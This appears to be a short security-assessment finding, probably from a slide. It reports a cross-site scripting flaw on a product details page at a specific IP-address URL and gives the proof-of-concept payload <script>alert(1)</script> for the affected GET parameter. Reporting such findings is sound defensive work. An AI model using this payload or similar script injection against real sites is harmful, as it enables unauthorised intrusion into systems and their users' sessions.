

# These parameters are vulnerable to XSS
RELEVANT URL:
http://13.127.120.228/products/details.php?p_id=4
AFFECTED PARAMETERS:
URL (GET)
PAYLOAD:
<script>alert(1)</script>